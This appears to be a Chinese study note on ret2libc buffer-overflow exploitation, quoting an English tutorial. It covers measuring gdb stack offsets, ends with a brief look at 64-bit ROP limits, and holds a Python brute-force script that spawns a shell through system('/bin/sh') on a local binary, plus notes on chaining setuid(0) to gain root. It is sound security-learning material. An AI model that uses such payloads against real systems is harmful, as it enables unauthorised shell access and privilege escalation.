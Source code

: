 ![image-20201028214834323](C:\Users\JacksonSang\AppData\Roaming\Typora\typora-user-images\image-20201028214834323.png)

如何知道在gdb中和gdb外面栈指针的偏移量

```c
#include<stdio.h> 
int main() 
{ 
  int a; 
  printf("%p\n",&a); 
  return 0; 
}
```

​       在gdb内和外分别执行该程序，然后计算两者地址的偏移，就可以大概得到esp在gdb外和内的偏移，然后分别以不同的偏移量执行程序，暴力破解。

![image-20201028215903952](C:\Users\JacksonSang\AppData\Roaming\Typora\typora-user-images\image-20201028215903952.png)

```python
from struct import pack
from subprocess import call
junk='A'*100
system=pack("I",0xf7e22d60)        #convert address to little endian
exit=pack("I",0xf7e16070)
sh=pack("I",0xf7f5c311)
for i in range(0x3b,0x4a):         #just a rough range
    ecx=pack("I",0xffffd248+i)
    payload = junk + ecx + system + exit + sh
    print hex(i)                   #prints exact offset
	call(['./buf',payload])
```

为什么gdb运行获取shell权限执行两次：

> Great we got shell. If you are wondering why it executed /bin/dash two times, it's because system function actually executes command in format "/bin/sh -c <command>". Here command is /bin/sh. You can read man page of system for more info. Execute it outside gdb.

#### 提权

想要提权的话，需要调用setuid(0)函数，但是我们得解决传入0的问题，调用四次gets函数，在setuid参数位置传0，但是这就涉及到chain libc，就是你要给每个libc函数传递参数，第二个libc的地址要放在第一个libc的返回地址处，那么第三个libc就会占据第一个libc的第一个参数位置，而且他们的参数位置也会互相冲突（如果不止一个的话），所以我们需要找到一些gadget，用pop来移动esp位置，移动到下一个libc的起始位置，栈布局如下：

![img](https://2.bp.blogspot.com/-UVbv1eXjunw/W3B6Rx7EzPI/AAAAAAAAAe0/1nGa4m7O9SYi2ftPbkOIqoyf3pOvDsSyACLcBGAs/s1600/14rs.png)

实验效果：在gdb中总是报错，然后我在gdb外运行，成功获取shell权限，但是获取不到root权限，setuid(0)可能不起作用。

## Modern 64 bit linux

> 32 bit return to libc was pretty easy, it got little trickier in getting root where you have to set null bytes as argument for setuid. Somehow we did that too. ROP exploitation on 64 bit can make you go nuts at start with functions like strcpy which don't copy null bytes. Why ? It's because of current 48-bit implementation of ***Canonical form addresses**.* Read more about it [here](https://en.wikipedia.org/wiki/X86-64#Virtual_address_space_details). 64 bits can provide 264 bytes (16 EB) of virtual address space. **However currently only the least significant 48 bits of a virtual address are actually used in address translation**. That means addresses from `'0000 0000 0000 0000'` to `'0000 7fff ffff ffff'`. So in order to chain instructions we need to fill next 8 bytes on stack with return address which has **2 null bytes** at start. 8 bytes because it's 64 bit and it will read next 8 bytes for return address. So chaining isn't possible with functions like strcpy as the chain will break with null bytes in input. It still can be done with bugs like *format string exploit* which we will learn in future posts or having functions like **read**(), **memcpy**(), etc. in code which can copy nullbytes. Okay. So strcpy stops at nullbytes. And we don't have any functions in code which will copy null bytes. That means we can only make it return to just one address. We now need to find one address with such rop-gadget that executes the shell for us. 

